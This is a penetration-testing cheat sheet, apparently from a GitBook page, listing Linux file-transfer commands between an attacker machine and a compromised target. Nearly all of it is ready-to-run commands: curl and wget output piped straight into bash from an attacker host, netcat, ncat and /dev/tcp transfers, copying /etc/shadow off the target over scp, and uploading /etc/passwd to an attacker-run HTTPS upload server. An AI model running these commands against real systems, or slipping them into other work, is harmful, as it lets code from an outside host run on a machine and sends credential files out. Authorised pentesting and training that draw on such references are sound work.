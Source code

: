 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Linux

## From ATTACKER to TARGET

### Linux base64 download

```bash
# Read as base64
cat test.txt | base64 -w 0 ; echo

# Decode base64
echo -n 'aGVsbG8sd29ybGQK' | base64 -d
```

### Linux download

```bash
# Download into disk
wget http://$IP/test.txt -O /tmp/test.txt

# Download into disk
curl -o /tmp/test.txt http://$IP/test.txt

# Download into memory
wget -qO- http://$IP/test.sh | bash

# Download into memory
curl http://$IP/test.sh | bash
```

### LOLBins (Netcat) download

```bash
# FROM ATTACKER TO TARGET (LISTEN ON TARGET)
# ATTACKER
nc -q 0 $IP 8000 < file.txt

# TARGET
nc -l -p 8000 > file.txt

# FROM ATTACKER TO TARGET (SENDING FILE AS INPUT)
# ATTACKER
sudo nc -l -p 443 -q 0 < file.txt

# TARGET
nc $IP 443 > file.txt

# FROM ATTACKER TO TARGET (RETRIEVE FILE USING /dev/tcp)
# ATTACKER
sudo nc -l -p 443 -q 0 < file.txt

# TARGET
cat < /dev/tcp/$IP/443 > file.txt
```

### LOLBins (Ncat) download

```bash
# FROM ATTACKER TO TARGET (LISTEN ON TARGET)
# ATTACKER
ncat --send-only $IP 8000 < file.txt

# TARGET
ncat -l -p 8000 --recv-only > file.txt

# FROM ATTACKER TO TARGET (SENDING FILE AS INPUT)
# ATTACKER
sudo ncat -l -p 443 --send-only < file.txt

# TARGET
ncat $IP 443 --recv-only > file.txt

# FROM ATTACKER TO TARGET (RETRIEVE FILE USING /dev/tcp)
# ATTACKER
sudo ncat -l -p 443 --send-only < file.txt

# TARGET
cat < /dev/tcp/$IP/443 > file.txt
```

### SSH download

```bash
# Download file from target
scp root@$IP:/etc/shadow .
```

## From TARGET to ATTACKER

### Linux web upload

```bash
# ATTACKER
# Create self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the UPLOAD server
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ../server.pem

# TARGET
# Upload the file
curl -X POST https://$IP/upload -F 'files=@/etc/passwd' --insecure
```

### SSH upload

```bash
# Upload file to target
scp test.txt root@$IP:/tmp/
```

### Web server type

```bash
# Python server
python3 -m http.server
python2 -m SimpleHTTPServer

# PHP server
php -S 0.0.0.0:8000

# Ruby server
ruby -run -ehttpd . -p8000
```
